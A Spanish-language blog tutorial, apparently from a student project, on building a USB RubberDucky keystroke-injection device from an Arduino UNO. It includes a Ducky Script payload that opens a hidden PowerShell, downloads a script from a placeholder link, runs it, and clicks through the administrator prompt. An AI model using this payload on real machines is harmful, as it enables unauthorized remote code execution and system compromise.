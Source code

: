```yaml
---
title: "COMO CREAR UN RUBBERDUCKY CON UN ARDUINO UNO"
layout: post
date: 2021-09-28 00:42
tag: Arduino UNO, RubberDucky, Hardware, Hack, Se tensó
image: 
headerImage: true
projects: true
hidden: true
description: "Como crear un rubberducky con un Arduino UNO"
category: project
author: Carlos
externalLink: false
---
```

Muy buenas todos, hace tiempo en el 2º año de SMR (Sistemas Microinformáticos y Redes) nos mandaron a toda la clase hacer un proyecto con el Arduino UNO, nos dieron la libertad de hacer cualquier cosa, hubo gente que hicieron una impresora, otros un semáforo con luces, otros un mini altavoz que emitia pitidos y yo me propuse hacer un RubberDucky con la placa Arduino UNO.
Entonces empecé a investigar y justamente [**S4vitar**](https://www.youtube.com/channel/UCNHWpNqiM8yOQcHXtsluD7Q) subió un vídeo de como convertir el arduino uno en un rubberducky, parece que los planetas se alienaron porque la verdad es que no se. 
## Tabla de contenido
* [Introducción al USB RubberDucky](#introducción-al-usb-rubberducky)
* [Lenguaje del código de un RubberDucky](#lenguaje-del-código-de-un-rubberducky)
* [Introducción al Arduino UNO](#introducción-al-arduino-uno)
* [Instalando Duckduino](#instalando-duckduino)
* [Comenzamos a reconfigurar el Arduino](#comenzamos-a-reconfigurar-el-arduino)
* [Preparando el Arduino antes de conectarlo](#preparando-el-arduino-antes-de-contectarlo)
* [Preparando el script a cargar en el Arduino](#preparando-el-script-a-cargar-en-el-arduino)
* [Subimos el código al Arduino / RubberDucky](#subimos-el-código-al-arduino-/-rubberducky)
* [Ejecutamos el paso final para escribir el firmware del teclado](#ejecutamos-el-paso-final-para-escribir-el-firmware-del-teclado)
* [Probando nuestro RubberDucky 100% funcional](#probando-nuestro-rubberducky-100-funcional)

## Introducción al USB RubberDucky
> Por rubber ducky se conoce a un dispositivo USB que contiene información "maliciosa" la cual podría infectar tu PC una vez que lo conectas a ella. Esta información podría ser un keylogger, un encriptador de información o cualquier otra herramienta para apropiarse de tu **información** o negarte el uso a ella.

<div class="usb">
    <img src="/assets/images/rubberducky1.jpg" align="right">
</div>

> <p>Al momento de conectar este USB, es reconocido con un dispositivo HID, haciéndose pasar por un teclado normal (para no levantar sospechas y evitar que sea bloqueado por antivirus o firewall) y ejecuta las teclas indicadas en su código.</p>
> <p>En definitiva, es un ataque que puede sembrar el caos en una empresa porque si alguien deja un pendrive en una mesa es casi al 100% seguro que alguien lo enchufara para ver qué es y lo que menos se puede imaginar es que este USB este enviando una reverse shell o que este desactivando programas.</p>

## Lenguaje del código de un RubberDucky
- REM --> Indica comentarios, estas lineas no ejecutan nada. 
- DELAY --> Hace una pausa, en el caso del ejemplo de 3 segundos al principio y más adelante de medio segundo para esperar a que salga la ventana de ejecutar. 
- GUI r --> Es la pulsación de la tecla WIN y la “r”, que sirve para los sistemas operativos Windows para mostrar rápidamente la ventana de ejecutar. 
- STRING --> Es la pulsación de todas las teclas de manera automática y a gran velocidad. 
- ENTER --> Pulsa la tecla enter.
- WINDOWS --> Menú Windows.
- UPARROW --> Tecla arriba.
- DOWNARROW --> Tecla abajo.
- LEFTARROW --> Tecla a la izquierda.
- RIGHTARROW --> Tecla derecha.
- CAPS |CAPSLOCK --> BloqMayús.
- REPEAT X --> Repetir X número de veces el comando anterior.
### Se puede incluso utilizar algunas (pero no todas) de dos a tres combinaciones de teclas:
- SHIFT ENTER
- CTRL ALT DEL
- ALT F4
- WINDOWS X
- ALT TAB
- WINDOWS R



{% highlight c %}
REM Wifi-Grab
DELAY 500
GUI r
REM Delays 0.2 seconds to give the Run prompt time to open.
DELAY 200
REM this command will download the text and save as d.ps1 then run
REM if the script failed to run change the ExecPolicy to Bypass
STRING powershell /w 1 /C Set-ExecutionPolicy RemoteSigned;wget "DOWNLOAD_LINK" -o \d.ps1;\d.ps1
REM Presses Ctrl + Shift + Enter to execute the PowerShell with administrative privileges.
CTRL-SHIFT ENTER
REM Delay 0.5 seconds to give the UAC prompt time to open.
DELAY 500
REM Presses Alt + Y to bypass UAC.
ALT y
{% endhighlight %}
En el caso de utilizar Arduino hay que convertir este código con alguno de los conversores [Duckduino](https://github.com/Dukweeno/Duckuino) o [Ducky2Arduino](https://github.com/kr0no/Ducky2Arduino)
<p>Pero nosotros no vamos a utilizar estos conversores porque después nos montaremos nuestro propio script con el lenguaje de Arduino que es parecido a C.</p>

## Introducción al Arduino UNO

